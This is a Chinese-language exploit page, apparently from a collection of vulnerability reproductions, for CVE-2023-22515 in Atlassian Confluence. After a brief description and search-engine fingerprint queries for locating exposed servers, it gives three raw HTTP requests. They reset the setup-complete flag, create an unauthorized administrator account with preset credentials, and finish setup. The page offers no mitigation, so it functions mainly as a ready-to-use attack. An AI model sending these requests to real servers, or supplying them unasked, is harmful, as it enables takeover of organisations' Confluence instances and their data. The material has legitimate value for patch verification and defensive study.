




# Atlassian Confluence server-info.action 登陆绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence 是 Atlassian 开发的一款建基于网络企业维基 (collaboration software) 的软件。

Atlassian Confluence 数据中心和服务器存在漏洞，利用 /server-info.action 端点传递 bootstrapStatusProvider.applicationConfig.setupComplete 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

## 漏洞影响

Atlassian Confluence

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

```
title=="登录 - Confluence"
```

## 漏洞复现

登录页面



poc

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
```



```
POST /setup/setupadministrator.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Content-Length: 126

username=bbvpe4mk&fullName=bbvpe4mk&email=bbvpe4mk@localhost&password=6wg6pm6sP123&confirm=6wg6pm6sP123&setup-next-button=Next
```



```
GET /setup/finishsetup.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
```

